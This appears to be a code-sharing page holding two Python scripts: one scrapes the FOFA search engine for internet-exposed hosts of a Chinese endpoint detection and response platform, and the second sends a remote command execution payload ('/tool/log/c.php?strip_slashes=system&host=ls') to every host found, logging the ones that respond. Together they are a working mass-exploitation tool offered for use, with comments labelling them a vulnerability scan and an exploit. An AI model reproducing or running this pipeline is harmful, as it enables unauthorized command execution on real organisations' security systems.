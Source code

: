 # coding:utf-8
#from bs4 import BeautifulSoup
import requests,re
import time
session = "_fofapro_ars_session=*******"
header = {
    "Accept":"text/javascript, application/javascript, application/ecmascript, application/x-ecmascript, */*; q=0.01",
    "Accept-Encoding":"gzip, deflate, br",
    "Accept-Language":"zh-CN,zh;q=0.9",
    "Connection":"keep-alive",
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36 Edg/84.0.522.59",
    "X-CSRF-Token":"DpraMUR6PuefxdVpDmbZmgW9572Oz4CKSkqLa4u+astRxa+NSW5t0gfjlRB8cESuUrBvrD+zkGA9GFcfEYAVZA==",
    "X-Requested-With":"XMLHttpRequest",
    "Cookie":session,
}

for i in range(1,23):
    time.sleep(5)
    #url="https://fofa.so/result?q=title%3D%22%E7%BB%88%E7%AB%AF%E6%A3%80%E6%B5%8B%E5%93%8D%E5%BA%94%E5%B9%B3%E5%8F%B0%{0}&qbase64=dGl0bGU9Iue7iOerr%2BajgOa1i%2BWTjeW6lOW5s%2BWPsCI%3D&file=&file=&full=true"
    url="https://fofa.so/result?q=title%3D%22%E7%BB%88%E7%AB%AF%E6%A3%80%E6%B5%8B%E5%93%8D%E5%BA%94%E5%B9%B3%E5%8F%B0%22&qbase64=dGl0bGU9Iue7iOerr%2BajgOa1i%2BWTjeW6lOW5s%2BWPsCI%3D&file=&file=&full=true&page={}"   
    true_url=url.format(i)
    print(true_url)
    reponse=requests.get(true_url,headers=header)
    sour=reponse.text
    sour1=sour.replace('\\','')
    #print(sour)

    pattern='<a target="_blank" href="https://59.46.126.82:9000">'

    findlist=re.findall(r'<a target="_blank" href="(.*?)">',sour1)
    with open("ceshi.txt",'a') as f:
        for j in findlist:
            f.writelines(j+'\n')

    print(findlist)
    #print(sour) //fofa扫描所有可能存在漏洞点的ip脚本







import requests
import re
import time
payload='/tool/log/c.php?strip_slashes=system&host=ls'
f=open('ceshi.txt','r')

aim_list=f.read().split('\n')
success=[]
f.close()
f1=open("succ.txt",'a')
for i in aim_list:
    time.sleep(2)
    test=i+payload
    print(test)
    try:
        reponse=requests.get(test,verify=False,timeout=5)
        if "File not found." not in reponse.text:
            success.append(test)
            f1.writelines(test+'\n')
        print(reponse.text)
    except Exception as e:
        print(e)
        continue
f1.close()
print(success)
#print(aim_list)
//扫描之后利用的脚本exp